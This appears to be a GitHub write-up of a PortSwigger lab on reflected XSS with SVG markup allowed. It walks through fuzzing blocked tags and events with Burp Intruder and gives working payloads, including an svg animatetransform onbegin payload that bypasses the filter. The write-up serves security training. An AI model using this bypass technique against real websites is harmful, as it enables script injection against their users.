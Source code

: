 # Lab: Reflected XSS with some SVG markup allowed

 This lab has a simple reflected XSS vulnerability. The site is blocking common tags but misses some SVG tags and events.

To solve the lab, perform a cross-site scripting attack that calls the alert() function. 

# Step 1 identify input being reflected on the page

I find that the search bar string is reflected on the page after a search is performed:

![image](https://user-images.githubusercontent.com/83407557/211160099-22bbadac-ae51-4d3e-bae4-224733489f82.png)

![image](https://user-images.githubusercontent.com/83407557/211160128-5f9bcaa5-3576-444c-bead-c5299063f332.png)

# Step 2 find allowed tags

## Finding some tags are blocked

I test to see if tags/events are being blocked with a few simple xss payloads:

```html
<script>alert(document.domain)</script>

<img src=1 onerror=alert(document.domain)>
```
![image](https://user-images.githubusercontent.com/83407557/211160481-1ddce7dc-7994-48be-8717-905eab5b40b5.png)


![image](https://user-images.githubusercontent.com/83407557/211160418-a17c7cff-9fed-4be2-bca5-693df5ba0091.png)

however I get a 400 error that state "Tag is not allowed" for both payloads:

![image](https://user-images.githubusercontent.com/83407557/211160445-73188be5-7310-4875-a9d3-207f06082572.png)

## FUZZing all tags

To fuzz the tags I send the following and send it to an intruder attack:

![image](https://user-images.githubusercontent.com/83407557/211160537-22425ba6-8278-474a-b5d1-0ed2e39c639c.png)

![image](https://user-images.githubusercontent.com/83407557/211160577-dc721f07-fd30-4f8a-952e-fcd082633a65.png)

I set the payload position on the word FUZZ:

![image](https://user-images.githubusercontent.com/83407557/211160611-4d5f976e-d48c-46cc-a7b5-dae79baf595d.png)

Then for payload I select tags from portswigger's [xss cheat sheet](https://portswigger.net/web-security/cross-site-scripting/cheat-sheet):

![image](https://user-images.githubusercontent.com/83407557/211160656-7284650f-6d08-41ef-92bd-f4876ef102b4.png)

I create a wordlist to use for future reference *can also be found in this github repository [here](tags)* where I have added a few more tags that I use for testing:

```bash
└─$ head tags.lst  
a
a2
abbr
acronym
address
applet
area
article
aside
audio
```

Then add the tags as the payloads of my intruder attack:

![image](https://user-images.githubusercontent.com/83407557/211160802-85ab7135-cbc5-4782-95d4-4a0e7cc3716b.png)

While most of the tags have 400 responses, a few have 200 telling me they are valid tags that will bypass the filer:

![image](https://user-images.githubusercontent.com/83407557/211160878-cd9a64fe-bbcf-4955-92fe-63b7b858c73c.png)

These tags are:
```html
<svg>
<image>
<svg><animatetransform>
<title>
```

# Step 2 Find allowed events

Using the same method as with tags I create a custom [wordlist](events) for all possible events

```bash
└─$ head events.lst 
onafterscriptexecute
onanimationcancel
onanimationend
onanimationiteration
onanimationstart
onbeforecopy
onbeforecut
onbeforeinput
onbeforescriptexecute
onblur
```
Then try a few payloads using the found valid tags:

```html
<image src=/FUZZ=1>
```

I send this request to intruder and set the payload position on the word FUZZ:

![image](https://user-images.githubusercontent.com/83407557/211161394-adf7fd9a-9fd5-4eee-8703-799e64828eff.png)

Then set to payload to the events wordlist:

![image](https://user-images.githubusercontent.com/83407557/211162088-518335e9-9b9d-4a2c-b99a-5a485d168ec1.png)

Only a single event (onbegin) has worked:

![image](https://user-images.githubusercontent.com/83407557/211162155-b09c9695-40c7-4a49-a498-5ea16732794f.png)

# Step 3 create POC

Looking back at the cheat sheet, I find only a single payload that support onbegin 

![image](https://user-images.githubusercontent.com/83407557/211162296-5e61e335-4dc1-47f3-9a86-b0074e6e233a.png)

```html
<svg><animatetransform onbegin=alert(document.domain) attributeName=transform>
```
![image](https://user-images.githubusercontent.com/83407557/211162880-a34cb323-2d58-484e-92fa-cc1eb84d6c26.png)

An alert fires:

![image](https://user-images.githubusercontent.com/83407557/211162907-385b28c2-b7cb-43db-a3c4-5323da93753b.png)

and the lab is solved:

![image](https://user-images.githubusercontent.com/83407557/211162912-688bc080-3d09-47cd-8d92-2b2ddbca1b1e.png)
